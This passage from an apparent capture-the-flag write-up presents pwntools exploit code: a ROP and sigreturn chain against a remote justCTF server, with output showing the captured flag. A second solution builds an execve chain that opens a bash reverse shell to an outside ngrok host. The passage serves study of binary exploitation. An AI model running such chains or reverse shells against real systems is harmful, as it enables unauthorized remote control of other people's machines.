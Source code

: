 ```python
frame.rip = syscall
frame.rsp = exe + 0x12e000
frame.rbp = exe + 0x12e000

rop += p64(rdi)
rop += p64(constants.SYS_rt_sigreturn)
rop += p64(syscall)
rop += bytes(frame)

print(send_stuff(rop).recv())
```

```
[+] Opening connection to 104.248.193.133 on port 80: Done
b'justCTF{n0_n33d_4_p455w0rd_wh3n_h4ckin9_b1ind_th3_wh0l3_s3rv3r_c0ngr4t5!}\n'
```

## My Solution
I went for a reverse shell instead. This requires more work, since we need to write both the command and an argv array. However, most of the code is the same.

```python
rax = exe + 0x97232
www = exe + 0x9f158
# mov qword [rsi], rax ; mov rax, rdx; ret

buf = exe + 0x129000
# the 4 values below are argv array pointers
data = p64(buf + 4*8)       # /bin/bash
data += p64(buf + 4*8+10)   # -c
data += p64(buf + 4*8+13)   # /bin/bash -i >& ...
data += p64(0)              # NULL
data += b'/bin/bash\x00-c\x00/bin/bash -i >& /dev/tcp/2.tcp.ngrok.io/14571 0>&1\x00'

rop = password
for i in range(0, len(data), 8):
  rop += p64(rsi_r15)
  rop += p64(buf+i)*2
  rop += p64(rax)
  rop += data[i:i+8].ljust(8, b'\x00')
  rop += p64(www)

frame = SigreturnFrame()
frame.rdi = constants.SYS_execve
frame.rsi = buf+4*8
frame.rdx = buf
frame.rcx = 0
frame.rip = syscall
frame.rsp = exe + 0x12e000
frame.rbp = exe + 0x12e000

rop += p64(rdi)
rop += p64(constants.SYS_rt_sigreturn)
rop += p64(syscall)
rop += bytes(frame)

send_stuff(rop).recv()
```
